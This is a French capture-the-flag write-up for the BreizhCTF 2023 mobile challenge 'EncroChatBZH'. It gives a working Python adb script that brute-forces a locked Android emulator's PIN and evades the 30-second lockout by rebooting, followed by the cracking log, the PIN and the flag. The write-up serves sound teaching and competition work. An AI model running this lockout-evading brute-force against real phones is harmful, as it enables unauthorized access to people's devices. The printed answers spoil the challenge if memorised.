




BreizhCTF 2023 - EncroChatBZH
==========================

### Challenge details

| Event                    | Challenge  | Category       | Points | Solves      |
|--------------------------|------------|----------------|--------|-------------|
| BreizhCTF 2023           | EncroChatBZH  | Mobile  | ???    | ???         |


Un individu s'est introduit dans le couvent des jacobins et a été arrêté en possession de beurre doux.
Son téléphone a été saisi, mais l'individu refuse de coopérer. Menez votre enquête et récupérez son code PIN pour mettre fin à ce commerce illégal !

Auteur: [Zeecka](https://twitter.com/Zeecka_)

### TL;DR

Dans ce challenge, il fallait optimiser le bruteforce du PIN de la VM Android pour débloquer le téléphone. Le code était `0672`. La suite du flag se situait dans les SMS archivés.

### Méthodologie

Le fichier fourni contient un [Android Virtual Device](https://developer.android.com/studio/run/managing-avds) (AVD). Ce dernier peut être ouvert à l'aide d'un [emulateur](https://developer.android.com/studio/run/emulator) Android. Par soucis de simplicité nous utiliserons celui ournis avec le logiciel [Android Studio](https://developer.android.com/studio).

L'import d'un AVD externe est peu documenté mais relativement simple. Un [topic stackoverflow](https://stackoverflow.com/questions/18864637/android-emulator-how-to-copy-an-emulator-avd) explique en détail la procédure d'import.

Afin de résoudre le challenge, il est important de préserver l'intégrité de l'AVD (et ne pas procéder à un formattage).

Une fois démarré, nous observons que l'appareil est vérouillé, conformément à la description du challenge :



Plusieurs méthodes existent pour dévérouiller un AVD, notamment par la supression de fichiers ou certaines CVE. Dans un soucis de réalisme, et en accord avec la suite du challenge, nous allons devoir récupérer le code du téléphone. Pour cela, nous allons mettre en place une attaque par force brute consistant à essayer l'ensemble des combinaisons de PIN.

[](https://github.com/urbanadventurer/Android-PIN-Bruteforce)
*Attaque par Bruteforce HID*

Puisqu'il s'agit d'un appareil virtuel, nous allons opter pour l'utilisation d'[Android Debug Bridge](https://developer.android.com/studio/command-line/adb) (adb). Ce dernier nous permet d'intérargir directement avec l'appareil et simuler des entrées utilisateur ou executer des commandes.

Des projets opensources comme [WBRUTER](https://github.com/wuseman/WBRUTER) proposent la mise en placce de d'attaques de bruteforce via `adb`.

Android propose un système de cooldown permettant de ralentir les attaques par bruteforce (avec une pause de 30 secondes tous les 4 essais). Ce mécanisme est déjà proposé par [WBRUTER](https://github.com/wuseman/WBRUTER). Une optimisation est cependant possible en remplacant cette attente par un **redémarrage de l'AVD, permettant de passer de 30 secondes à moins de 10 secondes de cooldown**.

Afin de tester nos différentes attaques, il est **important de le tester sur un environnement similaire** pour être sûre de ne pas passer à coté du code.

A l'aide des infomations comprises dans l'AVD, nous savons qu'il s'agit d'un Android 7.0 (x86) en API 24. Le modèle de téléphone quant à lui est un Nexus 5X 5.2. Le moyen le plus simple de mettre en place l'environnement est de copier et formatter l'AVD.

Une fois l'enironnement mis en place, nous pouvons tester [WBRUTER](https://github.com/wuseman/WBRUTER). Nous apercevons alors que certaines attaques proposées par l'outil renvoit des faux negatifs.

En se basant sur quelques recherches, nous allons construire un nouveau script d'attaque utilisant les commandes suivantes:
- `adb shell service call trust 7` - permet d'identifier si l'appareil est dévérouiller pour arréter le bruteforce (souce [stackoverflow](https://android.stackexchange.com/questions/191086/adb-commands-to-get-screen-state-and-locked-state)) ;
- `adb shell input text {code} && adb shell input keyevent 66` - écrit le code `code` suivi de la touche entrée ;
- `adb reboot` - redémarre l'AVD ;
- `adb shell input swipe 540 1600 540 100 150` - effectue un swipe vers lre haut, nécessaire après le redémarage de l'AVD.


Voici une proposition d'implémentation fonctionelle:

```python
from subprocess import PIPE, Popen
import time


def cmdline(cmd, sh=True):
    """ Execute command @cmd and return output using Popen() """
    process = Popen(args=cmd, stdout=PIPE, shell=sh)
    r = process.communicate()[0].decode()
    #print(r)
    return r

def is_locked():
    """ Return true if AVD is locked """
    time.sleep(0.3)
    cmd = "adb shell service call trust 7"
    # https://android.stackexchange.com/questions/191086/adb-commands-to-get-screen-state-and-locked-state
    return "1" in cmdline(cmd)

def test_code(code):
    """ Test a given PIN code on AVD """
    cmd = f"adb shell input text {code} && adb shell input keyevent 66"
    print(f"[Test] {code}/9999")
    cmdline(cmd)

for c in range( 10000):  # From 0 to 9999 ; Note correct is 0672
    code = str(c).zfill(4)  # PIN is 4 digits long
    r = test_code(code)
    if not is_locked():  # Phone has been unlocked
        print(f"[+] Code is {code}")
        break  # Exit
    if ((c+1) % 4 == 0):  # Every 5 try, reboot phone (bypass 30 sec waiting)
        cmdline("adb reboot")
        time.sleep(8)
        cmdline("adb shell input swipe 540 1600 540 100 150")  # Swipe Up
    else:
        time.sleep(0.5)  # Wait before next attemp
```

Après plusieurs minutes ou heures d'attentes, le téléphone se débloque à l'aide du code `0672`.

```
...
[Test] 0668/9999
[Test] 0669/9999
[Test] 0670/9999
[Test] 0671/9999
[Test] 0672/9999
[+] Code is 0672
```



Une investiguation sur le téléphone nous permet d'identtifier le SMS archivé suivant :



Nous avons donc les 2 parties du flag : `BZHCTF{0672-SecretCh4t}`.


#### Flag

`BZHCTF{0672-SecretCh4t}`

Auteur: [Zeecka](https://twitter.com/zeecka_)